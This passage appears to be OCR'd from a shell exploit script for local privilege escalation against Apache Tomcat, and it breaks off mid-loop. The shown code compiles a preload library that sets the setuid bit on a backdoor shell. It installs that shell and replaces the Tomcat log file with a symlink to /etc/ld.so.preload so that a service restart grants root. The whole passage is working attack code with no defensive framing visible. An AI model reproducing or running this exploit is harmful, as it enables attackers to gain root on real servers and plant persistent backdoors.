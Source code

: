 ```
chmod("$BACKDOORPATH", 04777);

unlink("/etc/ld.so.preload");

}

return old_geteuid();

}

*solibeof*

gcc -Wall -fPIC -shared -o $PRIVESCLIB $PRIVESCSRC -ldl

if [ $? -ne 0 ]; then

echo -e “\n[!] Failed to compile the privesc lib $PRIVESCSRC.”

cleanexit 2;

fi

# Prepare backdoor shell

cp $BACKDOORSH $BACKDOORPATH

echo -e “\n[+] Backdoor/low-priv shell installed at: \n`ls -l $BACKDOORPATH`”

# Safety check

if [ -f /etc/ld.so.preload ]; then

echo -e “\n[!] /etc/ld.so.preload already exists. Exiting for safety.”

cleanexit 2

fi

# Symlink the log file to ld.so.preload

rm -f $TOMCATLOG && ln -s /etc/ld.so.preload $TOMCATLOG

if [ $? -ne 0 ]; then

echo -e “\n[!] Couldn’t remove the $TOMCATLOG file or create a symlink.”

cleanexit 3

fi

echo -e “\n[+] Symlink created at: \n`ls -l $TOMCATLOG`”

# Wait for Tomcat to re-open the logs

echo -ne “\n[+] Waiting for Tomcat to re-open the logs/Tomcat service restart…”

echo -e  "\nYou could speed things up by executing : kill [Tomcat-pid] (as tomcat user) if needed ![:wink:](../img/72b158ac013b9bc9875813ca4ffe6fc1.png ":wink:")

"

while :; do

```